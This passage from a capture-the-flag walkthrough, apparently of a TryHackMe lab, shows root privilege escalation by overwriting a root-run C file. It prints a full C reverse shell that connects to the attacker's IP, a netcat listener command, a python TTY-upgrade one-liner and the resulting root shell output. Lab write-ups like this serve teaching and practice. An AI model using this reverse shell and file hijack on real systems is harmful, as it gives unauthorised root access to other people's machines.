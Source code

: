 I changed the C code (`/home/bobloblaw/Documents/.boring_file.c`) to test if this is the source of the message, by changing the message and adding the system command `id` to see who it is run by and waited a bit and now take look at the new message:

~~~
bobloblaw@bobloblaw-VirtualBox:~/Documents$ uid=0(root) gid=0(root) groups=0(root)
This is the source
~~~

I realized that the C code compiles to `/home/bobloblaw/Documents/.also_boring/.still_boring` and is run by root.

We can add a command to read the root flag, but where is the fun in that when we can root the machine. I replaced the code with a C reverse shell which you can find [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c) using `nano` editor. Here's the reverse shell. Just change the IP to yours and replace it with the C code:

~~~c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4242;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("<YOUR IP>");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
~~~

Now open a listener (`rlwrap nc -lvnp 4242`) and wait a bit and you'll get a shell as `root`. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/The_Blob_Blog/files]
└─$ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.9.1.83] from (UNKNOWN) [10.10.45.106] 38866
id
uid=0(root) gid=0(root) groups=0(root)
python -c "import pty;pty.spawn('/bin/bash')"
root@bobloblaw-VirtualBox:/root#
~~~
